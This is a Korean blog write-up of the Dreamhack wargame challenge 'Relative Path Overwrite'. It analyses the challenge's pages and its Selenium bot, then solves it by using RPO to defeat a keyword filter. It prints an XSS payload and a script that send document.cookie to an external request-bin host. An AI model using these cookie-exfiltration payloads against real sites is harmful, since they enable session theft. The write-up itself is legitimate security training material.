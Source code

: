 ```yaml
---
title: "드림핵 lv.2 - Relative Path Overwrite"
date: 2025-03-26 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, rpo, relative path overwrite] 
description: 드림핵 Relative Path Overwrite 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/439](https://dreamhack.io/wargame/challenges/439)
# 문제 설명
Exercise: Relative Path Overwrite에서 실습하는 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
### / 페이지
메인에 들어가면 "Welcome to rpo world"라는 문구만 뜨고 위의 Nav 바가 보인다.
### /?page=report 페이지
이번 페이지에선 `http://127.0.0.1/` 호스트로 어떠한 요청을 보낼 수 있는 기능이 보인다.
### /?page=vuln 페이지
해당 페이지에는 param 값을 받아와서 출력해주는 기능을 하고있다.<br />

개발자 도구를 통해서 코드를 볼 수 있는데 여기서 filter.js라는 파일에 있는 필터링 키워드에 해당하는 값이 param으로 전달되면 "nope !!"이라는 문자를 출력하는 기능이 있다.<br />
`var filter = ["script", "on", "frame", "object"];` 필터링하고 있는 키워드 리스트는 이와 같다. 스크립트를 활용한 XSS 공격을 필터링하고 있는 것 같다.
## 코드 분석
### bot.py
```python
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import sys
import base64

if len(sys.argv) < 2:
    exit(-1)

if len(sys.argv[1]) == 0:
    exit(-1)

path = base64.b64decode(sys.argv[1]).decode('latin-1')

try:
    FLAG = open('/flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1/')
        driver.add_cookie(cookie)
        driver.get(url)

    except Exception as e:
        driver.quit()
        return False
    driver.quit()
    return True

def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
    url = f'http://127.0.0.1/{path}'
    return read_url(url, cookie)

if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
    print('<script>alert("wrong??");history.go(-1);</script>')
else:
    print('<script>alert("good");history.go(-1);</script>')
```
다른 코드는 살펴볼 필요가 없을 것 같은데 Selenium 봇을 구현해놓은 코드는 중요해보인다.<br />

/?page=report 페이지에서 어떤 요청을 보낼 때 해당 코드가 실행된다고 보면 된다.<br />
마지막 부분을 보면 check_xss() 함수를 호출하면서 쿠키에 플래그를 담아 요청을 보내는 것이 보인다.<br />

여기서 알 수 있는 것은 127.0.0.1에 저장되는 쿠키 값을 어떻게든 읽어내야한다. 지금 생각해보기로는 아마 vuln 페이지에 출력시키거나 개인 서버를 통해서 값을 받아오면 될 것 같다.
## 최종 풀이
우리가 여기서 이뤄야할 것은 filter.js가 로딩되는 것을 막는 것이다.<br />
그래서 처음에는 `<base>` 태그를 이용해서 filter.js를 내가 적은 코드로 로드하는 것을 생각해보았다.<br />
### `<base>` 태그 이용하기
```js
const Http = new XMLHttpRequest();

const url = "https://hjyqcmp.request.dreamhack.games?data=" + document.cookie;

Http.open("GET", url);
Http.send();

console.log("SUCCESS");
```
내 개인 서버 루트 디렉토리에 filter.js를 위처럼 작성해놓고 페이지가 로드될 때 해당 스크립트가 실행될 수 있도록 Base Uri를 변경해보았다.<br />
하지만 이 방식은 어떤 이유에서인지 filter.js가 내가 작성한 파일이 아닌 원래 파일로 로드가 된다.<br /> Base Uri가 변경되는 것은 확실하게 확인되지만 아마 파일 로딩이 더 빠른 순서로 진행되기 때문인 것 같다.
### RPO 취약점 이용하기
```
/?page=vuln
index.php/?page=vuln
```
첫 번째나 두 번째 모두 같은 페이지에 접속하는 주소이지만 약간 다른 점이 있다.<br />
두 번째 주소로 접근을 하게 되면 `<script src="filter.js"></script>` 이 부분이 `index.php/filter.js` 파일을 불러오는 식으로 행동한다. 하지만 당연하게도 index.php는 디렉토리가 아니라 파일 이름이라 filter.js를 제대로 불러오지 못하고 그냥 Index.php를 리턴한다.<br />

개발자 도구의 Network 탭을 보면 페이지에서 일어나는 각종 요청들을 볼 수 있는데 그때 filter.js  대신 index.php가 리턴되는 것이 확인된다.<br />

즉, 이로써 우리는 필터링을 우회할 수 있다는 말이다.<br />

```
index.php/?page=vuln&param=<img src="abcd" onerror=location.href="https://xxwicua.request.dreamhack.games/"%2bdocument.cookie>
```
이런식으로 페이로드를 작성하고 /?page=report 페이지에 접속해서 제출하면 Request Bin에서 플래그를 얻을 수 있다.
# 배운 것
Network 탭을 바라보면서 각종 요청들을 지켜보는 것도 중요하구나를 느낄 수 있었고 RPO 취약점의 기본 원리와 작동 방식을 익힐 수 있었다.